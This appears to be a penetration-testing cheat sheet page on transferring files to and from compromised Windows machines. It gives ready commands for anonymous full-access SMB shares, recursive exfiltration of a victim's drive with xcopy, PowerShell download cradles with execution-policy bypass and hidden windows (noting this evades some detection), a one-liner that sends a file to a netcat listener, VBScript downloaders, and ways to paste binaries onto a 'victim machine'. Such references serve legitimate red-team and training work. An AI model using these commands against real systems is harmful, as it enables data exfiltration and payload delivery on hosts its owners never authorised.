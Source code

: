 ```yaml
---
layout: default
title: Windows
parent: File Transfers
---
```


# Windows File Transfers
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## SMB
Setup/delete unauthed SMB share on Windows
```powershell
net share <share name>=<path> /GRANT:"ANONYMOUS LOGON,FULL" /GRANT:"Everyone,FULL"
net share <folder> /DELETE
```
```powershell
New-SmbShare -Name <share name> -Path <path> -FullAccess 'ANONYMOUS LOGON','Everyone' -Temporary
Remove-SmbShare <share name>
```

impacket SMB server
```powershell
python smbserver.py [-smb2support] [-username <username>] [-password <password>] <share name> <path> 
```

Exfill files recursively
```powershell
xcopy /c /h /r /s /y <source> <smb destination>
```
- e.g. `C:\*`

---

## PowerShell
Running PowerShell commands/files
```powershell
powershell -ep bypass -nol -noni -nop -Command <command>
powershell -ep bypass -nol -noni -nop -File <file>
```
- `-ep` sets the default execution policy for the current session, but does not override the value set in the registry
- `-nol` hides the copyright banner at startup
- `-noni` does not present an interactive prompt to the user
- `-nop` does not load the Windows PowerShell profile
- Can additionally add `-w hidden` to hide the window
- Note; some detection just greps for these args

Paste into terminal to create `wget.ps1` script
```powershell
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = "<url>" >> wget.ps1
echo $file = "<output file>" >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```

```powershell
powershell -ep bypass -nol -noni -nop wget.ps1
```

One-liners (first is same as above pasted script)
```powershell
(New-Object System.Net.WebClient).DownloadFile(<url>, <output>)         # Fast, but no progress bar
(New-Object System.Net.WebClient).DownloadFileAsync(<url>, <output>)    # As above, but asynchronous
Invoke-WebRequest -Uri <url> -OutFile <output>                          # Easy, progress bar, but very slow
Start-BitsTransfer -Source <url> -Destination <output> [-Asynchronous]  # Fastest, asynchronous, progress bar, but BITS may not be enabled
```

PowerShell one-liner to send file to NetCat
```powershell
$h="<host>";$p="<port>";$data=Get-Content -Path "<file>";$tcp=New-Object System.Net.Sockets.TcpClient($h,$p);$w=New-Object System.IO.StreamWriter($tcp).GetStream();foreach($l in $data){$w.WriteLine($l)};$w.Flush();$w.Close();$tcp.Close();
```

---

## VBScript
Paste into terminal to create `wget.vbs` script
```powershell
echo 'strUrl = WScript.Arguments.Item(0)' > wget.vbs
echo 'StrFile = WScript.Arguments.Item(1)' >> wget.vbs
echo 'Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0' >> wget.vbs
echo 'Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0' >> wget.vbs
echo 'Const HTTPREQUEST_PROXYSETTING_DIRECT = 1' >> wget.vbs
echo 'Const HTTPREQUEST_PROXYSETTING_PROXY = 2' >> wget.vbs
echo 'Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts' >> wget.vbs
echo 'Err.Clear' >> wget.vbs
echo 'Set http = Nothing' >> wget.vbs
echo 'Set http = CreateObject("WinHttp.WinHttpRequest.5.1")' >> wget.vbs
echo 'If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest")' >> wget.vbs
echo 'If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP")' >> wget.vbs
echo 'If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP")' >> wget.vbs
echo 'http.Open "GET", strURL, False' >> wget.vbs
echo 'http.Send' >> wget.vbs
echo 'varByteArray = http.ResponseBody' >> wget.vbs
echo 'Set http = Nothing' >> wget.vbs
echo 'Set fs = CreateObject("Scripting.FileSystemObject")' >> wget.vbs
echo 'Set ts = fs.CreateTextFile(StrFile, True)' >> wget.vbs
echo 'strData = ""' >> wget.vbs
echo 'strBuffer = ""' >> wget.vbs
echo 'For lngCounter = 0 to UBound(varByteArray)' >> wget.vbs
echo 'ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1)))' >> wget.vbs
echo 'Next' >> wget.vbs
echo 'ts.Close' >> wget.vbs
```

```powershell
cscript wget.vbs <url> <output>
```

---

## Convert File to Base64
Base 64 Encoding
```powershell
certutil -encode <input> <output>
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("<UTF8 string>")) > <b64 output>
```

Base 64 Decoding
```powershell
certutil -decode <input> <output>
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<b64 string>")) > <UTF8 output>
```

---

## exe2hex (debug.exe or PowerShell)
```shell
python3 exe2hex.py -x <exe> [-b <bat output>] [-p <ps output>] [-cc]        # From file
cat <exe> | python3 exe2hex.py -s [-b <bat output>] [-p <ps output>] [-cc]  # From stdin
```
- Paste output into target terminal to create file on target machine
- `-b` output to bat file (uses `debug.exe`, only 32-bit OSes, no file size limit)
- `-p` output to ps file (supports 64-bit, is not a ps script, only calls ps at end)
- `-c` or `-cc` for compression level
- `-t` creates an Expect file to automate a Telnet session
- `-w` creates an Expect file to automate a WinEXE session
- When using over **Telnet** or **WinEXE**, 100+ lines can be unpredictable including incorrect ordering or character ommission:
    - Use [Expect](http://expect.sourceforge.net/); available on most distros `apt install expect`
    - Further details found here <https://github.com/g0tmi1k/exe2hex/blob/master/README.md>

---

## exe2bat (debug.exe)
- Only works on 32-bit systems and file must be at most 64kB
- If > 64kB, use a compression tool such as `upx`
```shell
upx --ultra-brute <file>
```

Convert .exe to series of echo commands using `exe2bat`, paste into target terminal to create file on target machine
```shell
wine exe2bat.exe <input exe> <output text file>  # Remove Wine if on Windows
```

---

## FTP
- Often enabled, but interactive so need to provide text file with FTP commands instead

Setup FTP server e.g. vsftpd, pureftpd or proftpd
```shell
vim /etc/vsftpd.conf  # anonymous_enable=YES
service vsftpd start  # Default anonymous directory is /srv/ftp or /var/ftp
```

Paste into victim terminal (anonymous : anonymous for anonymous login)
```powershell
echo open <ip> > ftp.txt
echo <username> >> ftp.txt
echo <password> >> ftp.txt
echo bin >> ftp.txt
echo GET <remote file> >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```

---

## TFTP
- Enabled by default up to Win 2003/XP
- UDP based, often blocked by corporate egress rules
- Non-interactive, easy to setup

```powershell
atftpd --daemon --port 69 <directory>  # Setup server on attacker's machine
tftp -i <ip> GET <remote file>  # On victim machine
```